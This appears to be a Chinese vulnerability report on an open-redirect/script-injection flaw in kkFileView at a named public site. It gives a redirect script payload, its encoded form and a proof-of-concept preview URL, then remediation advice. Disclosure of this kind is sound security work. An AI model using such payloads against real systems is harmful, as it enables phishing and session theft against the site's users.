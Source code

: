 # 一



具体描述如下：

危害性: 导致用户被钓鱼攻击，可获得应用系统cookie等敏感信息，可获取应用系统登陆权限。

重现性: 攻击者可以重复攻击造成危害，但受到权限、时间等其它不可控因素的限制。

可利用性：初学者短期能掌握攻击方法，漏洞利用程序或脚本已公开，攻击者无需掌握相关漏洞原理，使用获取到相关脚本即可一键利用。

受影响用户: 所有用户-能够控制或接管业务系统所有普通用户或者管理员用户并造成危害。

可发现性: 漏洞可轻易被发现-漏洞在公网且可以通过搜索引擎发现并造成实际危害。







1、通过目录扫描扫出https://onehall.cn/preview/index

访问发现是kkFileView。

![img](kkfileview%20url%E8%B7%B3%E8%BD%AC.assets/clip_image002.jpg)

2、构建payload

<script>window.location.href="https://www.qq.com";</script>

编码base64并url编码:

PHNjcmlwdD53aW5kb3cubG9jYXRpb24uaHJlZj0iaHR0cHM6Ly93d3cucXEuY29tIjs8L3NjcmlwdD4%3D

POC:

picturesPreview?urls=PHNjcmlwdD53aW5kb3cubG9jYXRpb24uaHJlZj0iaHR0cHM6Ly93d3cucXEuY29tIjs8L3NjcmlwdD4%3D

![img](kkfileview%20url%E8%B7%B3%E8%BD%AC.assets/clip_image004.jpg)

可以看到成功跳转到目标网址

![img](kkfileview%20url%E8%B7%B3%E8%BD%AC.assets/clip_image006.jpg)

五、修复建议

1.若跳转的URL事先是可以确定的，包括url和参数的值，则可以在后台先配置好，url参数只需传对应url的索引即可，通过索引找到对应具体url再进行跳转；

2.若跳转的URL事先不确定，但其输入是由后台生成的（不是用户通过参数传人），则可以先生成好跳转链接然后进行签名，而跳转cg首先需要进行验证签名通过才能进行跳转；

3.若1和2都不满足，url事先无法确定，只能通过前端参数传入，则必须在跳转的时候对url进行按规则校验：即控制url是否是授权的白名单。







# 二

1、通过目录扫描扫出https://onehall.cn/preview/index

访问发现是kkFileView。

![img](kkfileview%20url%E8%B7%B3%E8%BD%AC.assets/clip_image002-1736751216046-1.jpg)

2、下载地址预览文件处存在URL任意跳转漏洞

![img](kkfileview%20url%E8%B7%B3%E8%BD%AC.assets/clip_image004-1736751216046-2.jpg)

POC：

<script>window.location.href="https://www.qq.com";</script>

![img](kkfileview%20url%E8%B7%B3%E8%BD%AC.assets/clip_image006-1736751216046-3.jpg)

可以看到成功跳转到目标网址

![img](kkfileview%20url%E8%B7%B3%E8%BD%AC.assets/clip_image008.jpg)